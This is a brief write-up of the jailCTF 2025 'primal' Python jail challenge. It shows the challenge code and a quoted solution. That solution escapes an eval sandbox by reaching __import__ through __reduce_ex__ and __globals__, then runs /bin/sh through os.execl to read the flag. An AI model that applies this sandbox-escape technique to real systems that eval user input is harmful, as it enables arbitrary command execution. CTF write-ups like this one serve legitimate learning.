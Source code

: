 # jailCTF 2025 primal

```python
#!/usr/local/bin/python3
import re

isPrime = lambda num: num > 1 and all(num % i != 0 for i in range(2, num))

code = input("Prime Code > ")

if len(code) > 200 or not code.isascii() or "eta" in code:
    print("Relax")
    exit()

for m in re.finditer(r"\w+", code):
    if not isPrime(len(m.group(0))):
        print("Nope")
        exit()

eval(code, {'__builtins__': {}})
```

Requirements:

1. No `eta`: no getattr/setattr, use `obj[name]` to access fields
2. No builtins: use `().__reduce_ex__(2)[0].__globals__['__builtins__']['__import__']('os')` to get os
3. Words should have prime length: use `'aa'.__len__()` for `2`, use `\xXX` in strings

According to [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf), the solution is:

```python
().__reduce_ex__('aa'.__len__())[False].__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('os').execl('/bin/sh','sh','\x2d\x63','cat *\x66*')
```

1. Use `__reduce_ex__` (length 13) as the starting point
2. Use `'aa'.__len__()` instead of `2`
3. Use `False` (length 5) instead of `0`
4. For strings, use `\xXX` (length 3) to avoid length problems
5. Use `execl` (length 5) instead of `system`
